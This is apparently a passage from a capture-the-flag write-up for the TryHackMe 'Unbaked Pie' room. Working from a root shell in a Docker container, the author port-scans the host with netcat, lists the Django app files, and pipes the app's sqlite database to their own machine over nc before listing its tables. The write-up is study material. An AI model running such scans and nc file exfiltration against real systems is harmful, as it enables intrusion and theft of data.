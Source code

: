 Here we can clearly see that the user was trying to login into 172.17.0.1 using SSH as user ramsey. And as this is a docker container, that IP is the IP address of the host. But the SSH was not open on all interfaces otherwise we would have seen on the output of the nmap.

### Port Scan using nc
As there was no nmap on the docker container, I used netcat for scanning for open ports.
```console
root@8b39a559b296:~# nc -zv 172.17.0.1 1-65535
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 5003 (?) open
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 22 (ssh) open
```
And it turned out SSH is open on the 172.17.0.1 interface.
Even though SSH was open and we know a user on the box, we still do not know the password for the user. So, I began to enumerate the docker container if there are any sensitive files leaking the credentials.

## Enumeration Django app
On the home page, there were files for django app.
```console
root@8b39a559b296:/home# ls -la
total 28
drwxr-xr-x 1 root root 4096 Dec  3 12:22 .
drwxr-xr-x 1 root root 4096 Oct  3 13:48 ..
drwxrwxr-x 8 root root 4096 Oct  3 11:03 .git
drwxrwxr-x 2 root root 4096 Oct  3 11:03 .vscode
-rwxrwxr-x 1 root root   95 Oct  3 11:03 requirements.sh
-rwxrwxr-x 1 root root   46 Oct  3 11:09 run.sh
drwxrwxr-x 1 root root 4096 Dec  3 11:15 site
```
And the database on the django app was sqlite. So, I downloaded the sqlite3 file using nc on my box to analyse the database.


## Using nc for file transfer
### On local box
```console
local@local:~/Documents/tryhackme/unbaked_pie$ nc -nvlp 9001 > db.sqlite3
Listening on 0.0.0.0 9001

```
### On remote Box
```console
root@8b39a559b296:/home/site# cat db.sqlite3 | nc 10.6.31.213 9001
```
This way we can transfer files using nc.

## Analysing sqlite database
```console
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions
```

